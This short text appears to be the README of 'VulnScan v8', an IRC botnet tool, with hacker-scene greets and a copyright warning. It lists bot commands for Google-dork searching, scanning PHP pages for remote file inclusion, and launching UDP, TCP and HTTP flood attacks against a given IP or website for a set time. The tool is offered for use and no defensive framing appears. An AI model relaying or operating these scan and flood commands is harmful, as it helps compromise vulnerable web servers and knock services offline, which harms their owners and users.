 ## VulnScan v8 -Final- By Morgan
 Colors by delet

## Note:
DO NOT REMOVE COPYRIGHTS ...

|_|0|_|
|_|_|0|
|0|0|0|

## New functions:
New l33t colors

Fixed Google

## Scan command:
!morgan !eval @gstring='google%20dork';

!morgan @rfiscan vulnfile.php?vulnvar=

## DDoS commands:
Udp : !morgan @udpflood IP packet-size time

Tcp : !morgan @tcpflood IP port time

Http: !morgan @httpflood www.demo.com time

## Greets to:

All irc.root.net.ve - #Morgan users...
Hackwood

Enjoy the bot ....
/Morgan
